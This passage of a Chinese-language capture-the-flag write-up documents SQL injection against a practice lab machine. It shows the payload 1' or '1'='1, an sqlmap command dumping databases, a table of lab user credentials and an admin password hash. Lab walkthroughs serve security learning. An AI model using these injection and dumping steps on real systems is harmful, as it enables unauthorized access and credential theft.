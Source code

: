 1‘ or '1'='1返回所有记录，存在注入点

用sqlmap跑一跑

```shell
sqlmap -r post.txt -p search --dbs
[15:01:46] [INFO] fetching database names
available databases [3]:
[*] information_schema
[*] Staff
[*] users
```

先爆一下Users

只有一张表，表里的数据如下

```shell
Database: users
Table: UserDetails
[17 entries]
+----+------------+---------------+---------------------+-----------+-----------+
| id | lastname   | password      | reg_date            | username  | firstname |
+----+------------+---------------+---------------------+-----------+-----------+
| 1  | Moe        | 3kfs86sfd     | 2019-12-29 16:58:26 | marym     | Mary      |
| 2  | Dooley     | 468sfdfsd2    | 2019-12-29 16:58:26 | julied    | Julie     |
| 3  | Flintstone | 4sfd87sfd1    | 2019-12-29 16:58:26 | fredf     | Fred      |
| 4  | Rubble     | RocksOff      | 2019-12-29 16:58:26 | barneyr   | Barney    |
| 5  | Cat        | TC&TheBoyz    | 2019-12-29 16:58:26 | tomc      | Tom       |
| 6  | Mouse      | B8m#48sd      | 2019-12-29 16:58:26 | jerrym    | Jerry     |
| 7  | Flintstone | Pebbles       | 2019-12-29 16:58:26 | wilmaf    | Wilma     |
| 8  | Rubble     | BamBam01      | 2019-12-29 16:58:26 | bettyr    | Betty     |
| 9  | Bing       | UrAG0D!       | 2019-12-29 16:58:26 | chandlerb | Chandler  |
| 10 | Tribbiani  | Passw0rd      | 2019-12-29 16:58:26 | joeyt     | Joey      |
| 11 | Green      | yN72#dsd      | 2019-12-29 16:58:26 | rachelg   | Rachel    |
| 12 | Geller     | ILoveRachel   | 2019-12-29 16:58:26 | rossg     | Ross      |
| 13 | Geller     | 3248dsds7s    | 2019-12-29 16:58:26 | monicag   | Monica    |
| 14 | Buffay     | smellycats    | 2019-12-29 16:58:26 | phoebeb   | Phoebe    |
| 15 | McScoots   | YR3BVxxxw87   | 2019-12-29 16:58:26 | scoots    | Scooter   |
| 16 | Trump      | Ilovepeepee   | 2019-12-29 16:58:26 | janitor   | Donald    |
| 17 | Morrison   | Hawaii-Five-0 | 2019-12-29 16:58:28 | janitor2  | Scott     |
+----+------------+---------------+---------------------+-----------+-----------+
```

以为是管理页面的登录名和密码，但是试了一下发现不是。。。。。先放着

在Staff里发现了一条

```
Database: Staff
Table: Users
[1 entry]
+--------+----------------------------------+----------+
| UserID | Password                         | Username |
+--------+----------------------------------+----------+
| 1      | 856f5de590ef37314e7c3bdf6f8a66dc | admin    |
+--------+----------------------------------+----------+
```
